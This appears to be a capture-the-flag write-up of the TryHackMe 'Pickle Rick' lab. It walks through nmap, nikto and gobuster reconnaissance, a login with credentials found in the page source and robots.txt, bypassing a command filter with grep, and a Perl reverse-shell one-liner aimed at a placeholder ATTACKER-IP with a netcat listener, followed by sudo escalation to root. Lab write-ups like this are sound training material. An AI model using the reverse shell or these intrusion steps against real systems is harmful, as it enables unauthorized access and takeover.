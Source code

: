 ```yaml
---
layout: archive
title: 'Pickle Rick'
permalink: /writeups/2023/01/pickle-rick/
tags:
  - CTF
  - TryHackMe
  - Hacking
---
```


🚩

This Rick and Morty-themed challenge requires you to exploit a web server and find three ingredients to help Rick make his potion and transform himself back into a human from a pickle.

Begin the box by setting up directory for project under ~/pickle-rick-ctf, also created a directory for nmap. at ~/pickle-rick-ctf/nmap. This is just to easily store and remove the information and files gathered during the CTF.

Using nmap we can begin gathering information about the target.

```bash
nmap -sV -sC -O $ip -oN nmap/initial
```

```bash
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-16 19:23 EDT
Nmap scan report for 10.10.178.231
Host is up (0.031s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 0b:eb:d9:e4:65:7d:72:1a:d0:a1:fd:c3:88:2c:ee:82 (RSA)
|   256 77:b4:2c:d4:88:15:ca:7f:d5:fb:2d:ec:d7:d5:41:37 (ECDSA)
|_  256 a5:7f:5f:33:47:d7:d8:f2:04:c3:7e:c8:8e:f6:89:d8 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Rick is sup4r cool
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94%E=4%D=10/16%OT=22%CT=1%CU=38185%PV=Y%DS=2%DC=I%G=Y%TM=652DC6
OS:17%P=x86_64-pc-linux-gnu)SEQ(SP=102%GCD=1%ISR=109%TI=Z%CI=I%II=I%TS=8)SE
OS:Q(SP=103%GCD=1%ISR=10B%TI=Z%CI=I%II=I%TS=8)SEQ(SP=104%GCD=1%ISR=10A%TI=Z
OS:%CI=I%TS=8)SEQ(SP=105%GCD=1%ISR=10B%TI=Z%CI=I%II=I%TS=8)OPS(O1=M508ST11N
OS:W7%O2=M508ST11NW7%O3=M508NNT11NW7%O4=M508ST11NW7%O5=M508ST11NW7%O6=M508S
OS:T11)WIN(W1=68DF%W2=68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)ECN(R=Y%DF=Y%T=4
OS:0%W=6903%O=M508NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(
OS:R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%
OS:W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=
OS:)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%
OS:UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.95 seconds
```

First of all we can see the machine is running 2 ports. Port 22 & 80 indicating a http web server is running as well as OpenSSH on port 22.

We can begin to look at the site to see what is going on.

![](/images/pr1.png)

Site returns a page indicating that Rick needs help from Morty to turn himself back into a human. As he was a pickle, classic Rick.

By viewing the HTML source code we can see that rick has left a note that his username is R1ckRul3s - Now we know Ricks username but we don’t know what this username is for or the password.

Next I’m going to use nikto to attempt to try and find any outdated software versions or files/directories that could be exploited.

```bash
nikto -url $ip | nikto-output.log
```

![Untitled](/images/pr2.png)

Nikto showed us that the version of Apache appears to be out of date, there is a login page at /login.php and some other stuff.

Whilst nikto is doing it’s work I’m also going to user gobuster to try and find any hidden directories using a wordlist provided in /usr/share/wordlists.

```bash
gobuster -u $ip -w=/usr/share/wordlists/directory-list-1.0.txt -x php,sh,txt
```

Gobuster will brute force the directories and hopefully give us some results which we can use to find more information about the target machine.

![Untitled](/images/pr3.png)

Gobuster has given us a few pages to check out including the same login page shown by nikto as well as portal.php, ./php, an assets directory and finally robots.txt.

Opening robots.txt we can see some text this could be a password of some kind or just Rick being Rick.

Trying the combination of R1ckRul3s and REDACTED on the login.php page is correct and we have successfully logged into the admin panel.

![Untitled](/images/pr4.png)

Let’s try and explore the different pages to see if we can find anything interesting. All the links return a GIF screen indicating that only the real Rick can view these pages.

![Untitled](/images/pr5.png)

The commands section however has a blank box in which we can execute code and the return is shown back to us.

![Untitled](/images/pr6.png)

Running ls in the commands panel displays the files within the directory.

![Untitled](/images/pr7.png)

Using cat returns an error that the command is disabled to make it harder. This means we will have to find another way to view the files contents.

Using both head and tail is also forbidden so instead we can try other methods of displaying. One way is to use;

```bash
grep . Sup3rS3cretPickl3Ingred.txt
```

Grep is not disabled and returns the answer to the first clue in the CTF.

You could also try writing a script that echos the contents of the file line by line but grep is much cleaner in this situation.

We need to find a way to give us a more stable shell and not rely on the web interface to try and navigate the file system (This is possible and you can complete the challenge by doing so). To do this we can use a reverse shell.

We can try by using netcat but the string “cat” will be caught by the checking system used by the site to prevent the usage of cat. Using the shorthand nc also yields nothing.

Next we can try and use perl or python to try and return an output.

```bash
perl -e "print 'test'"
```

This time we get the output of “test” so we know we can use perl in some way to give us a reverse shell.

Using [https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) to give us a premade shell command to work with.

```bash
perl -e 'use Socket;$i="ATTACKER-IP";$p=LISTENING-PORT;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

We can modify this command to insert our IP address and our chosen port to establish a connection.

```bash
nc -lvnp PORT
```

Let’s start a listener with netcat and set it listening on the same port you used for the command.

Now we can insert the script into the command panel and hopefully establish a reverse shell to make it easier to navigate the filesystem and get more answers.

![Untitled](/images/pr8.png)

Success!

Once in we can run the whoami command to see that we are user www-data. We can also see what permissions we have using the command;

```bash
sudo -l
```

This command shows us that we may run any command with no password required. This is fantastic news.

![Untitled](/images/pr9.png)

After snooping around in the file directory we can access the /home directory and see there are two users on the system. Ubuntu and Rick. Entering Ubuntu we see nothing in there. Going into Rick shows us a file named “second ingredients”.

```bash
cat "second ingredients"
```

Returns the second answer to our CTF.

Now we need to find the final ingredient to turn Rick back into a human.

Using the fact we can use any command with no password means we can view the root directory using the following command;

```bash
sudo ls /root/
```

This shows us the following;

![Untitled](/images/pr10.png)

This must be the third ingredient required.

```bash
sudo cat 3rd.txt
```

We get our final ingredient and finish our CTF adventure with Rick and Morty.
